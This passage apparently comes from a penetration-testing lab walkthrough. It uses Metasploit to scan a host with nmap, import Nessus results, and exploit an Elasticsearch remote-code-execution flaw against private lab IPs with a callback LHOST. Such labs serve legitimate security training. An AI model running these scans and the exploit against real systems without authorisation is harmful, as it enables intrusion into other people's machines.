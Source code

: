 4. **Create a workspace**:
   ```bash
   workspace -a hackit
   ```
<img width="200" alt="image" src="https://github.com/user-attachments/assets/407a6186-de11-4599-bb74-6874e14052c3" />

---

### 6️⃣ **Run Nmap Scans Using MsfConsole**
- **Full TCP Scan**:
   ```bash
   db_nmap -sV -p- <IP chosen>
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/6f085fa5-ded7-46e0-8eda-ade35eab904a" />

- **UDP Top 1000 Ports Scan**:
   ```bash
   db_nmap -sU --top-ports 1000 <IP chosen>
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/05e703dd-aff5-4f13-a13e-7c9ac968dadb" />


- **OS and Service Detection**:
   ```bash
   db_nmap -O <IP chosen>
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/928b14ce-f076-4b25-b471-6b9503bf0696" />

---

### 7️⃣ **Import Nessus File to MsfConsole**
1. **Locate the Nessus file**.
2. **Import the file into MsfConsole**:
   ```bash
   db_import <path/to/nessusfile>
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/0ec191d0-6b47-41de-9597-535667f10662" />

---

### 8️⃣ **Exploit Elasticsearch Vulnerability**
1. **Search for the Elasticsearch exploit**:
   ```bash
   search elasticsearch
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/6c7f3d77-cefa-4c7d-9a1c-b6dcc17abb5b" />

2. **Use the first exploit found**:
   ```bash
   use exploit/multi/elasticsearch/script_mvel_rce
   ```
3. **Configure the options**:
   ```bash
   set RHOST 192.168.56.141
   set LHOST 192.168.56.104
   ```
4. **Run the exploit**:
   ```bash
   run
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/bb671320-19ee-4fc6-b599-223e92b7cb8e" />
